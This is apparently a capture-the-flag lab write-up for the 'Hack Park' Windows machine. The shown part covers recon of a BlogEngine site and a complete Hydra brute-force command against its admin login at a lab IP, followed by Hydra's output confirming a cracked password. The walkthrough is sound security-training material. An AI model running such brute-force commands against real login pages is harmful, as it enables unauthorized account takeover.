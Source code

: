 # Hack Park

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Initial Recon

When we visit the website we are greeted with a picture of Pennywise the Clown. Not a lot of useful information here other than the blog is running on Blog Engine.

Click the drop down menu and navigate to the login page. Using the default credentials of admin for the username and password did not work. Let's try brute force!

## Brute Force Login with Hydra

Leaving the username as admin, I ran the following command to brute force the credentials:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.25.133 http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=HmJiEcXuNtx1YDUbkbYzGYCH%2BShXrxVMS4%2F38RvDe6rO3SPc4Jx%2Fir59Z0SttFNtIcuMCzNWe%2FjJOY0d4LxFXLm%2F7zthwO25uu7ElzJC2gbd4to8Che6MJX7uaxdgSATqb1Wnw8pghC7qZ5swjRMP3T%2B3HFGXUhHBzRr4INjubZ21D0BQq3iu4MnHT8gMh9ckh8CHXaCeWucVvRcPtB5nbWkWUNBrgi0gZHDwaawyg1IYWzsmi1H6q%2FlKGwWlosjEN7%2BBdnQpToFZlPXhTpBk%2FvWoJe4FWmCFq0aTSPfcimPfaZkaGd4a%2F3oVFAYaOQ13s2wlWnL%2FR3vYPc2ukn5O67WIYrxc%2FYRbU9pOVJ7ZqTOaxP4&__EVENTVALIDATION=qCDC%2BGuE8nBYoyx0tAmIFExfe4R9EZBB6JLqK3MBjYxsMxNZt6iFn4dAuKnfKdh2td%2Fkm%2FODoq1lrQ7fY41Az5fVPZtjpzTQtZO%2FaAssA%2BJT64z%2FVaovdFBTy%2FsqMrbc6X2IzpDZrux5KDKJZ6UnNgM192EajKyo6QWpzhcQWv5m0v67&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

(Note: the __VIEWSTATE__ was taken from the request payload)

Hydra quickly cracked this password (omitted below):

```
[STATUS] 737.00 tries/min, 737 tries in 00:01h, 14343662 to do in 324:23h, 16 active
[80][http-post-form] host: 10.10.25.133   login: admin   password: XXXXXX
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-16 16:43:24
```
